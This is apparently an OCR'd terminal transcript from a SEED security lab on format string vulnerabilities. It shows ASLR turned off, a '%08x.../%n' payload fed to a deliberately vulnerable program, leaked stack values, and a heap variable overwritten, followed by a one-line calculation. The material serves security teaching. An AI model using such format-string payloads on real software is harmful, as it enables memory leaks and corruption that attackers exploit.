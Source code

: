 ```sh
root@ubuntu:/home/seed# sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
root@ubuntu:/home/seed# ./write_string 
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%n
The string length is 46
root@ubuntu:/home/seed# ./vul_prog < mystring 
The variable secret's address is 0xbffff684 (on stack)
The variable secret's value is 0x 804b008 (on heap)
secret[0]'s address is 0x 804b008 (on heap)
secret[1]'s address is 0x 804b00c (on heap)
Please enter a decimal integer
Please enter a string
�bffff688/00000001/b7eb8309/bffff6af/bffff6ae/00000000/bffff794/bffff734/
The original secrets: 0x44 -- 0x55
The new secrets:      0x4c -- 0x55
```

0x4c = 76 = 8*8+8+4


